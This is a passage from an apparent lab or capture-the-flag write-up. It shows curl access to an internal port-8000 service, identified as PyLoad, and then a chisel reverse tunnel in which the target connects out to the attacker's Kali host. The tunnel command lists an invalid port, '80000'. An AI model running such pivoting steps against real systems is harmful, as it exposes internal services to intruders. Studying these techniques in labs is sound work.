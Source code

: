 ```
```
![](./IMG/36.png)
- With the network status result, Try to access it with curl 
```
curl -L 127.0.0.1:8000 > 8000.html
```
![](./IMG/37.png)
- Read the content of the file I download (Forgot to take screenshot)
```
cat 8000.html 
```
- With the image from others writeup below, it's easy to know the internal content is PyLoad
> Before access the internal service, it's necessary to build a tunnel to outside to let me access it
>  The easiest way is chisel
- In attacker host(kali)
```
chisel server -p 3477 -reverse 
```
- Target maching
```
./chisel client <kali address>:3477 R:8000:127.0.0.1:80000/tcp
```
